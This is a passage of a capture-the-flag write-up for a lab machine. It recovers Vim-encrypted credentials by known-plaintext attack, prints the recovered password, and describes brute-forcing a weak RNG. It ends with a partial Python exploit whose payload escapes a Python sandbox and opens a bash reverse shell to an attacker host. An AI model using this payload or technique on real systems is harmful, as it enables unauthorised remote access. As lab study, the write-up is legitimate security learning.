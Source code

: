 You have read permission of `/home/rijndael/creds.txt` and also `/home/rijndael/creds.txt.old`. The `.old` file suggest us that the creds is in format of "username / password" format. It's a partial known plaintext attack.

According to the file header of `creds.txt`, it's encrypted with Vim, File header is `Vimcrypt~02!` means a Blowfish with wrong implementation.

So we are be able to recover the first 64 bytes of the encrypted text. Except the header, the encrypted text is only 26 Bytes...

Blowfish is based on XOR too. We have script for it, check `xor-kpa.py`, run it:

```bash
$ python2 ./xor-kpa.py -d "#rijndael / " kryptos-creds-ciphertextonly.txt
rijndael / bkVBL8Q9HuBSpj
```

With creds, you are able to login via ssh. User Get.

## Root

After User owned, you have access to `/home/rijndael/kryptos/kryptos.py`, download it.

Do a code review, TBH, I don't have any idea again...

After some hints, I do a benchmark on the source code of `secure_rng` function, it shows that: we have the possibility that: 

| Generated Rand | Possibility |
|:--------------:|:-----------:|
| <=100 | 25% |
| <=500 | 27% |
| <=1000 | 30% |
| >10000000 | 70% |

So we have about 1/4 to bruteforce the rand. After bruteforce get the value of rand, you'll be able to sign your code. Script here:

```python
#!/usr/bin/env python3
# -*- encoding:utf-8 -*-

import requests
import logging
import sys
import binascii
from ecdsa import SigningKey, NIST384p

BASEHOST = "http://127.0.0.1:8181"
ATTACKER_HOST = "10.10.16.80"
ATTACKER_PORT = "15500"

PAYLOAD_TEMPL = """
(lambda __builtins__=([x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__):
    __builtins__['print'](__builtins__['__import__']('os').system("bash -c 'bash -i &>/dev/tcp/{attip}/{attport} 0<&1'"))
)()
""".format(attip=ATTACKER_HOST, attport=ATTACKER_PORT)

logger = logging.getLogger("default_log")
handler = logging.StreamHandler()
formatter = logging.Formatter("%(levelname)s | %(message)s")
handler.setFormatter(formatter)
logger.addHandler(handler)
logger.setLevel(logging.INFO)
```